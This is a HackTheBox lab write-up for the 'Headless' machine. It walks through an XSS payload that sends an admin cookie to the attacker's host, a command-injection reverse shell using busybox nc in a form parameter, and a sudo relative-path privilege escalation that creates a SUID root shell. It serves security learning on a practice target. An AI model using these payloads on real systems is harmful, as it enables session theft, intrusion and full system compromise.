 ```yaml
---
tags:
  - htb
---
```

# HackTheBox: [Headless](https://app.hackthebox.com/machines/Headless)

> [!tip]- Summary with Spoilers
> This Linux box presents a simple XSS vulnerabilty for RCE, and a vulnerable Sudo script that calls another script with a relative path for PE.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Tue May 28 14:16:13 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.11.8)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

## 5000/tcp Http

![](_/htb-headless-20240528-1.png)

```console
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       93l      179w     2363c http://t:5000/support
200      GET       96l      259w     2799c http://t:5000/
500      GET        5l       37w      265c http://t:5000/dashboard
```

`/dashboard` complains about authorization:

```text
The server could not verify that you are authorized to access the URL requested. You either supplied the wrong credentials (e.g. a bad password), or your browser doesn't understand how to supply the credentials required.
```

Burp shows that it sets a cookie:

```console
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Decoded, it contains `"user",` and some data, `f^TïËòÍhðÖðY~`.

So, first I'll try to use the form at `/support` to do an XSS attack and recover an admin's cookie.

My first attempt uses `<script>var i=new Image(); i.src="http://10.10.14.2/?cookie="+btoa(document.cookie);</script>` as the `message` parameter on the `/support` form. But, the site doesn't like that:

![](_/htb-headless-20240528-3.png)

I get one empty hit:

```console
10.10.14.2 - - [28/May/2024 16:38:29] "GET /?cookie= HTTP/1.1" 200 -
```

Eventually this one comes back:

```console
10.10.11.8 - - [28/May/2024 16:38:51] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

I'm not sure which requests those were from, since there's a lag.

Decoding the base64 value above, the cookie is:

```console
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

This time the value is "admin" not "user": `"admin"fÌ94Iº­(È½_lÄ§^ô`

I try the `/dashboard` page again, but this time I use Intercept in Burp and replace the cookie value with the one captured. Now I can view the dashboard:

![](_/htb-headless-20240528-4.png)

That's great but I also edit the cookie value in Firefox so I can play around with the dashboard without having to intercept and modify each request.

![](_/htb-headless-20240528-6.png)

Here's the POST request:

```http
POST /dashboard HTTP/1.1
Host: t:5000
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://t:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://t:5000/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Connection: close
date=2023-09-15
```

## RCE

Modifying the `date` parameter with a reverse shell invocation works:

```http
date=2023-09-15;busybox%20nc%2010.10.14.2%20443%20-e%20bash
```

```console
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.8] 42470
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

## PE

One script available via Sudo:

```console
dvir@headless:~/app$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

```text
dvir@headless:~/app$ cat /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
fi
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
exit 0
```

I'm most interested in this line:

```console
./initdb.sh 2>/dev/null
```

Since it's using a relative path, I'll create my own malicious `initdb.sh`.

```console
dvir@headless:~/app$ echo 'cp /bin/bash /tmp/x; chmod 4755 /tmp/x' > initdb.sh
dvir@headless:~/app$ chmod +x initdb.sh
```

I'll make sure the process it's looking for isn't running:

```text
dvir@headless:~/app$ ps faxuw |grep initdb
dvir        1497  0.0  0.0   6332  2128 pts/0    S+   02:00   0:00                  \_ grep initdb
```

And then I'll trigger the exploit.

```text
dvir@headless:~/app$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.05, 0.08, 0.08
Database service is not running. Starting it...
dvir@headless:~/app$ ls -l /tmp/x
-rwsr-xr-x 1 root root 1265648 May 29 02:00 /tmp/x
dvir@headless:~/app$ /tmp/x -p
x-5.2# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
x-5.2# cat /root/root.txt
5f8c95f...
```

## Post

## Open Questions

Unresolved issues encountered while attacking this target.

- Which parameter on the `/dashboard` form was vulnerable to XSS? I tried several but it was hard to tell which one worked since there was a delay in the response. And how did one of the responses return an empty string?

## Credits

- Thanks to [TechnoLifts writeup](https://medium.com/@technolifts/headless-hack-the-box-htb-write-up-1c728108c0ca) for getting the right syntax on the XSS.
